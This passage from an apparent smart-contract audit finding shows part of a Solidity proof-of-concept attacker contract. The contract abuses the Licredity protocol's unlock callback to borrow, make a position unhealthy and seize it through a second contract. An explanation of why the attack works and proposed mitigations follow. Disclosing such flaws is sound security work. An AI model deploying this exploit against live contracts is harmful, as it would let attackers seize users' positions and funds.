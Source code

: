 ```solidity
        // critical: this will call AttackerRouter.unlockCallback(positionId) inside Licredity.unlock(...)
        licredity.unlock(abi.encode(positionId));
    }

    // This runs inside Licredity.unlock() as a callback.
    // Attack steps:
    // 1) increaseDebtShare -> borrow (makes position temporarily unhealthy)
    // 2) call AttackerSeizer.seize(positionId) -> calls Licredity.seize with msg.sender = AttackerSeizer
    function unlockCallback(bytes calldata data) public returns (bytes memory) {
        uint256 positionId = abi.decode(data, (uint256));

        // borrow a small amount (increase debt) — this can make position unhealthy
        uint128 borrowAmount = 1 ether;
        (uint256 totalShares, uint256 totalAssets) = licredity.getTotalDebt();
        uint256 delta = borrowAmount.toShares(totalAssets, totalShares);
        licredity.increaseDebtShare(positionId, delta, address(this));

        // perform the seizure through a separate contract so message sender != position.owner
        seizer.seize(positionId);

        return new bytes(0);
    }
}
```

**Why this works:** `increaseDebtShare` temporarily makes the position unhealthy inside the `unlock` callback. Calling `seizer.seize(...)` executes `Licredity.seize` with `msg.sender == AttackerSeizer` (not the position owner), so the `position.owner == msg.sender` guard does not stop it. The final `unlock()` health checks run after the callback, but the bad position was already seized/removed — so everything passes.

## Recommended Mitigation

1. **Forbid self-seizure explicitly**

   ```solidity
   require(position.owner != msg.sender, "Cannot seize own position");
   ```

2. **Constrain seizure ordering**

   * Require that `seize()` must be the **first action** inside an `unlock()` execution.
   * Use the `Locker.isRegistered()` check to revert if the position has already been touched in the same call.

   ```solidity
   if (Locker.isRegistered(bytes32(positionId))) {
       revert CannotSeizeRegisteredPosition();
   }
   ```

3. **Mirror proven design patterns**
